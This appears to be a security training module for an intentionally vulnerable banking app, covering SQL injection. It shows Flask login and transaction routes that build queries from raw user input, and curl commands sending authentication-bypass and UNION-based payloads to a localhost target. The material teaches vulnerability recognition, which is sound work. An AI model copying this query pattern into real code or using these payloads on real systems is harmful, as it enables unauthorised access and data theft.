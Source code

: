 ### Warning Signs (What to Look For)
1. 🚩 String concatenation in SQL queries
2. 🚩 Direct use of user input in queries
3. 🚩 Error messages that reveal SQL syntax
4. 🚩 No input validation
5. 🚩 Using root database privileges for application

## Overview
SQL Injection remains one of the most critical web application vulnerabilities (OWASP Top 10 - A03:2021). This module examines real SQL injection vulnerabilities in our banking application's authentication and transaction systems.

## Vulnerable Code Examples

### 1. Authentication Bypass (auth_routes.py)
```python
@auth_bp.route('/api/login', methods=['POST'])
def login():
    data = request.get_json()
    username = data.get('username')
    
    # Vulnerable SQL query
    query = f"SELECT * FROM user WHERE username = '{username}'"
    user = db.session.execute(query).fetchone()
```

### 2. Transaction History Query (transaction_routes.py)
```python
def get_user_transactions(user_id):
    query = f"SELECT * FROM transactions WHERE user_id = {user_id}"
    return db.session.execute(query).fetchall()
```

## Attack Vectors

### 1. Authentication Bypass
#### Basic Authentication Bypass
```bash
# Payload: ' OR '1'='1
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "' OR '1'='1", "password": "anything"}'
```

#### Union-Based Attack
```bash
# Payload: ' UNION SELECT 1,2,'admin','hash',5,6,7,8,9 FROM user--
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "alice' UNION SELECT 1,2,'admin','hash',5,6,7,8,9 FROM user--", "password": "anything"}'
```
